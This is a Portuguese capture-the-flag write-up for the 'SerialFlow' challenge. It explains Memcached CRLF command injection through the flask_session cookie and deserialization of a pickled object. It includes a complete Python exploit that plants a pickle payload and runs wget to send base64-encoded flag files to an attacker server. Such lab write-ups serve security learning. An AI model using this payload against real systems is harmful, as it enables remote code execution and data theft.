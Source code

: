 # SerialFlow

>SerialFlow is the main global network used by KORP, you have managed to reach a root server web interface by traversing KORP's external proxy network. Can you break into the root server and open pandoras box by revealing the truth behind KORP?

Dificuldade: __medium__  
Código-fonte: Disponibilizado

__Obs:__ _Todos os arquivos referenciados foram disponibilizados no desafio._

[Memcached Command Injections at Pylibmc](https://btlfry.gitlab.io/notes/posts/memcached-command-injections-at-pylibmc/) é a vulnerabilidade que será explorar nesse desafio.

O artigo mencionado tem muito detalhe de como essa vulnerabilidade funciona, resumirei o que entendi e compartilharei o exploit que utilizei para concluir esse desafio.
`
__Memcached__ é um sistema de cache em memória que, em conjunto com o __flask_session__ apresenta grande risco para as aplicações. Pois, é possível injetar objetos serializados no __Memcached__ e quando esses objetos são carregados pelo __flask_session__ eles são deserializados ocorrendo a injeção de comando.

Os principais comandos que precisamos saber sobre __Memcached__. 
__Obs:__ _As informações foram tiradas do artigo mencionado._

| Command | Format                                                          |
| :------ | :-------------------------------------------------------------- |
| set     | `set <key> <flags> <expiry> <datalen> [noreplay]\r\n<data>\r\n` |
| get     | `get <key>\r\n`                                                 |
- __flag:__ data specific client side flags
- __expiry:__ expiration time (in seconds)
- __datalen:__ size of the data (in bytes)
- __data__: data block

## Como é injetado os comandos?

__Memcached__ suporta tanto texto livre como binários em seu protocolo de comunicação e os comandos são separados por __CRLF__. Então quando o __flask_session__ salva ou carrega as informações no __Memcached__, podemos enviar vários comandos separados por `\r\n`

## Na prática

Nosso desafio utiliza o __Memcached__ + __flask_session___. O ponto de injeção é o `sessionId` que é armazenado no `Cookies` com a key `session`.

Então se realizarmos uma requisição __GET__ para o servidor com o seguinte valor: `session=RANDOM_KEY\r\nset session:1337 0 2592000 1\r\nA\r\n`. 
O __flask_session__ irá buscar o session utilizando o valor que passamos nos cookies. Ou seja, ele irá enviar o comando `get RANDOM_KEY\r\nset session:1337 0 2592000 1\r\nA\r\n` para o __Memcached__. Como o __CRLF__ é utilizado como separador. O __Memcached__ irá interpretar o comando como dois, separando-os no primeiro `\r\n` e executando um `get` e um `set`.

Assim, iremos inserir uma nova session com a `key` 1337, `flag` 0, `expiry` em 2592000 com uma informação de 1 byte de comprimento que é o valor A.

## Exploit

Primeiro iremos criar um objeto para serializar com __pickle__ em python.
```python
class RCE:
    def __reduce__(self):
        cmd = ('wget https://{YOUR_SERVER}?flag=$(cat /flag*.txt | base64)')
        return os.system, (cmd,)
```

Precisamos gerar o payload com o nosso RCE
```python
def generate_exploit(session_id):
    payload = pickle.dumps(RCE(), 0)
    payload_size = len(payload)
    cookie = session_id.encode('utf-8') + b'\r\nset session:1337 0 2592000 '
    cookie += str.encode(str(payload_size))
    cookie += str.encode('\r\n')
    cookie += payload
    cookie += str.encode('\r\n')
    cookie += str.encode('get session:1337')

    pack = ''
    for x in list(cookie):
        if x > 64:
            pack += oct(x).replace("0o","\\")
        elif x < 8:
            pack += oct(x).replace("0o","\\00")
        else:
            pack += oct(x).replace("0o","\\0")

    return f"\"{pack}\""
```

Depois iremos realizar duas chamadas para o servidor.
Primeira para salvar o nosso código serializado no __Memcached__
Seguindo para fazer o __flask_session__ carregar o nosso payload e deserializar o nosso código assim executando o nosso comando.
```python
url = "http://{IP}:{PORT}"

response = requests.get(url)
session_id = response.headers['Set-Cookie'].split("session=")[1].split(';')[0]
requests.get(url, cookies={"session": generate_exploit(session_id)})
response = requests.get(url, cookies={"session": "1337"})
print(response.content)
``` 
